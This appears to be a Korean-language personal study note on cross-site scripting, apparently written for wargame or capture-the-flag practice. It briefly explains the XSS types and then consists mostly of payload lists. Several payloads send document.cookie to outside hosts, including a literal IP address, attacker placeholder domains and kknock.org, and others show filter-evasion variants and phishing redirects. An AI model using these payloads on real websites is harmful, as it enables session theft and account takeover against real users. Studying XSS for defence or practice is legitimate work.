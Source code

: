 # 기본개념
웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행시킴
특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있음
SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌지만
이를 우회하는 다양한 기술이 소개되면서 XSS 공격은 지속되고 있음


# XSS 종류
Stored XSS
XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS

Reflected XSS
XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS

DOM-based XSS
XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
Fragment는 서버 요청/응답 에 포함되지 않음

Universal XSS
클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS



# 필터링 우회



# 스크립트 예시
쿠키 및 세션 탈취 코드

```javascript
<script> new Image().src = 'http://211.250.216.249:7444/?cookie=' + document.cookie;</script>
<img src="nonexistent.jpg" onerror="new Image().src = 'http://211.250.216.249:7444/?cookie=' + document.cookie;">


<script src="http://malicious-domain.com/evil_script.js">
// "hello" 문자열 alert 실행
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

페이지 변조 공격 코드
```javascript
<script>
// 이용자의 페이지 정보에 접근
document;
// 이용자의 페이지에 데이터를 삽입
document.write("Hacked By DreamHack !");
</script>
```


위치 이동 공격 코드
```javascript
<script>
// 이용자의 위치를 변경
// 피싱 공격 등으로 사용됨
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기, 근데 잘 안되는 것 같음..
window.open("http://hacker.dreamhack.io/")
</script>
```


우회 코드
```javascript
<script>location.href="http://localhost:8080/?cookie="+document.cookie</script>
<img src=x onerror=this.src="http://localhost:8080/?cookie="+document.cookie>
<script>document.write("<img src=http://localhost:8080?cookie="+document.cookie+">")</script>
<script>document.write("<img style='display: none;' src=http://localhost:8080?cookie="+document.cookie+">")</script>
```


on, script, :javascript필터링 우회 시나리오
```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```


단순 공백 치환 우회는 이렇게 쉽게 우회할수 있음
location.href 처럼 어떤 객체의 속성값이 될 수 있다면 
document[location].href 이런식으로 더 노련하게 우회할 수 있음


# 주의할 점
``<script src="/vuln?param=alert(1)"></script>`와 
``<script>location.href="/vuln?param=alert(1)"</script>`는 동작이 다름

```chatgpt
<script src="/vuln?param=alert(1)"></script>: 이 코드는 /vuln?param=alert(1) URL에서 스크립트 파일을 로드하려고 시도합니다. 만약 웹 서버가 이 URL에 대한 스크립트 파일을 반환하면 브라우저는 해당 스크립트를 실행하고 alert(1)을 실행할 것입니다. 이는 XSS (Cross-Site Scripting) 공격의 일반적인 형태입니다.

<script>location.href="/vuln?param=alert(1)"</script>: 이 코드는 현재 페이지를 /vuln?param=alert(1)로 리다이렉트하는 JavaScript 코드입니다. 스크립트가 실행되면 현재 페이지의 URL이 /vuln?param=alert(1)로 변경되고, 브라우저는 이 URL로 이동하게 됩니다. 따라서 이 코드도 사용자에게 alert(1)을 실행시킬 수 있지만, 이것은 간접적인 방법으로 이루어지며 원래 페이지에서 다른 페이지로 이동하는 방식입니다.
```




# 실제 페이로드
### 더블 URL 인코딩 우회
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
\u003Cscript\u003Elocation.href="/memo?memo="+document.cookie\u003C/script\u003E
\u003C\u003E
%253Cscript%253Elocation.href="/memo?memo="+document.cookie%253C/script%253E

<svg/onload=location['hr'+'ef']='/memo?memo='+document['cookie']>
```

### img태그의 onerror
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" onerror="location.href('/memo?memo='+document.cookie);">
<img src="3" onerror="location.href('/memo?memo=' + document.cookie);">

<svg/onload=location.href="/memo?memo="+document.cookie>
<svg/onload=location["href"]="/memo?memo="+document["cookie"]>
```

# on, script, :javascript필터링

```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```

# 기본적인 태그 우회
```javascript
<img src="" onerror="alert()">
<scrIpt>alert();</scripT>
<img src="" &#x6f;nerror="alert()">
<img src=about: onerror=alert(document.domain)>
<svg src=about: onload=alert(document.domain)>
<body onload=alert(document.domain)>
<video><source onerror=alert(document.domain)></video>
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
<iframe srcdoc='<img src=about: o&#110;error=parent.alert(document.domain)>'></iframe>
```

# hspace - turndown
https://github.com/mixmark-io/turndown/blob/master/src/turndown.js
```javascript
<script><script>location.href='https://kknock.org/'+document.cookie;<</script>/</script>script>
```
